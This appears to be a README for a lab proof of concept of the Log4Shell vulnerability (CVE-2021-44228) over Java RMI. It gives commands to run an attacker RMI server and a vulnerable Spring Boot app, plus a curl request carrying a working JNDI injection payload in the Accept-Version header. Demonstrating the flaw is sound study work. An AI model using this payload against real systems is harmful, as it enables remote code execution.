


# log4shell-rmi-poc
A Proof of Concept of the Log4j vulnerability (CVE-2021-44228) over Java-RMI
It uses Log4j 2.5.7 from spring-boot-starter-log4j2


## Requirements:

Tested with Java 8 (JDK 1.8.0_25) and Java 11 (JDK 11.0.1)

## How to run the POC

### 1. Clone the repo:
```bash
git clone https://github.com/Labout/log4shell-rmi-poc.git
```

### 2. Start the attacker RMI Server

```bash
cd Log4jshell_rmi_server

./mvnw clean package

java -jar target/Log4jshell.rmi.server-0.0.1-SNAPSHOT.jar
```

You should get something like this:




### 3. Start the vulnerable Log4j application (here a spring boot application)

In a new Terminal 

```bash
cd vulnerabel_log4j_app

./mvnw clean package

java -jar target/vulnerabel_log4j_app-0.0.1-SNAPSHOT.jar
```


### 4. Inject a vulnerable JNDI over the "Accept-version" header

```bash
curl 'http://localhost:8080/hello' --header 'Accept-Version: ${jndi:rmi://127.0.0.1:1099/ExecByEL}'
```

As you can see the the vulnerable app calls the Calculator app.



## References 
https://www.cisecurity.org/log4j-zero-day-vulnerability-response/
https://www.lunasec.io/docs/blog/log4j-zero-day/
